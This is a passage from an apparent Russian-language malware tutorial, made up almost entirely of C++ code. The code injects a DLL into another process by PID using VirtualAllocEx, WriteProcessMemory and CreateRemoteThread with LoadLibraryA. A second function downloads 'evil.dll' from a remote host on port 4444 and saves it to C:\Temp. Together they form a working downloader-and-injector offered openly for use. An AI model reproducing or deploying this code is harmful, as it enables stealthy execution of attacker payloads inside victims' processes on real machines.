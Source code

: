 ```cpp
  HANDLE rt; // удалённый поток
  LPVOID rb; // удалённый буфер

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // разбор PID процесса
  if ( atoi(argv[1]) == 0) {
    printf("PID не найден :( Выход...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Как видно, код довольно простой.    
Здесь я хочу добавить простую логику загрузки нашей `evil.dll`. В самом простом виде она будет выглядеть так:    

```cpp
// загрузка evil.dll с URL-адреса
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0",
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}
```
